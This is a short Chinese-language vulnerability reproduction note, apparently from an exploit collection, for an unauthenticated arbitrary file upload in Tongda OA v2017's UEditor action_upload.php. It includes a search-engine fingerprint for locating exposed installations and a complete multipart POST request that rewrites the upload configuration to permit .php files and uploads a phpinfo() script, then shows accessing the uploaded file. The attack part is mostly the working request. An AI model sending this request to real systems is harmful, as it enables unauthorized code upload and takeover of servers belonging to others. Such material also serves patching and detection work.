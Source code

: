 ## 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

## 漏洞影响

```
通达OA v2017
```

## 网络测绘

```
app="TDXK-通达OA" 
```

## 漏洞复现

访问获取版本信息

![img](./images/202202091053148.png)

发送请求包上传任意文件

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

![img](./images/202202091053293.png)

再访问上传的文件 

![img](./images/202202091053249.png)